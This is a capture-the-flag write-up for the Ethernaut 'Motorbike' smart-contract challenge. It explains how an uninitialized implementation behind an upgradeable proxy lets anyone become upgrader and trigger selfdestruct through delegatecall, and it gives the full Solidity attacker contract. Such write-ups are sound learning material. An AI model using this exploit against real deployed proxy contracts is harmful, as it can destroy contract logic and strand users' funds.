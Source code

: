 # Level 25: [Motorbike](https://ethernaut.openzeppelin.com/level/0x9b261b23cE149422DE75907C6ac0C30cEc4e652A)

## Level objectives:
`selfdestruct` the implementation contract.
## Analysis
- The current logic contract calls `delegatecall` once–in it's `_upgradeToAndCall` (called by `upgradeToAndCall`) function.
- It is used to change the implementation contract address, hence "upgrading" the contract.
- So we will call `upgradeToAndCall`, point it to our contract and call `selfdestruct` via `delegatecall` => the delegate caller, i.e. the Engine contract, will get `selfdestruct`-ed.
- We just need permissions to call `upgradeToAndCall`. It can be called only by the `upgrader` set in the init function.
- The proxy contract made an error in the constructor. It delegate called the initialize function, so the `upgrader` set in init, was actually set in the proxy's context => the implemantation hasn't even been initialized yet!.
- So I load it into Remix and initialize it => I'm the upgrader.
- So I am already authorized to call `upgradeAndCall`.
## Code:
```sol
pragma solidity ^0.8;

contract DestroyEngine {
    function destroy() public {
        selfdestruct(payable(0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4));
    }

    function genBytes() view public returns (bytes memory) {
        bytes memory b = abi.encodeWithSelector(DestroyEngine(this).destroy.selector);
        return b;
    }

    fallback() external payable {
        selfdestruct(payable(0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4));
    }

}
```

